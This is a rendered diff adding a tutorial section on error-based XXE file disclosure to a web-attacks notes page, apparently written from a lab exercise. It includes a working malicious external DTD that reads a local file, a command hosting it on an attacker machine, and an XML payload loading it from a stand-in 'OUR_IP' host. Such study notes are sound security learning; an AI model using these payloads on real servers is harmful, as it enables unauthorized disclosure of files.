

Before and after one commit to QED-92/cyber-security, a Markdown page: web-attacks/web-attacks.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; pictures changed too: web-attacks/images/xxe-error.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/web-attacks/web-attacks.md
+++ b/web-attacks/web-attacks.md
@@ -1001,3 +1001,65 @@ The application returns the contents of the target file, wrapped safely inside a
 ---
 
 ### Advanced File Disclosure - Error Based
+
+In some scenarios, an application may **not reflect any XML output** in its response. When this occurs, direct data extraction through entity reflection is not possible. However, if the application displays **XML parsing or runtime errors**, it may still be possible to leak sensitive information through **error-based XXE exploitation**.
+
+This technique abuses the parser’s error-handling behavior to force the contents of a local file to be included in an error message.
+
+**Step 1: Trigger XML Parsing Errors**
+
+We begin by testing whether the application displays XML parsing errors. By referencing a **non-existent entity**, we intentionally submit malformed XML:
+
+```xml
+<email>
+    &errorEntity;
+</email>
+```
+
+The application responds with an error message and reveals the file system path of the executing script:
+
+```
+/var/www/html/error/submitDetails.php
+```
+![Filtered output](images/xxe-error.png)
+
+This confirms that:
+
+- XML parsing errors are visible to the user
+- The back-end directory structure is partially disclosed
+
+Both conditions are required for error-based XXE exploitation.
+
+**Step 2: Create a Malicious External DTD**
+
+Next, we create an external DTD (`xxe.dtd`) designed to concatenate the contents of a local file with a non-existent entity, forcing the parser to raise an error that includes the file contents.
+
+```bash
+<!ENTITY % file SYSTEM "file:///flag.php">
+<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
+```
+
+We then host the `DTD` on our attacking machine:
+
+```bash
+python3 -m http.server 8001
+```
+
+In this payload:
+
+- `%file` references the target file
+- `%nonExistingEntity;` ensures a parsing error is triggered
+- The parser attempts to resolve the combined entity, leaking the file contents in the resulting error message
+
+**Step 3: Reference the External DTD**
+
+We include the external DTD within the XML request by defining and invoking a parameter entity:
+
+```xml
+<!DOCTYPE email [
+  <!ENTITY % remote SYSTEM "http://OUR_IP:8001/xxe.dtd">
+  %remote;
+  %error;
+]>
+```
+
````
Also changed, not shown: other parts of web-attacks/web-attacks.md (+17 -0 lines), web-attacks/images/xxe-error2.PNG (added), web-attacks/images/xxe-error3.png (added).
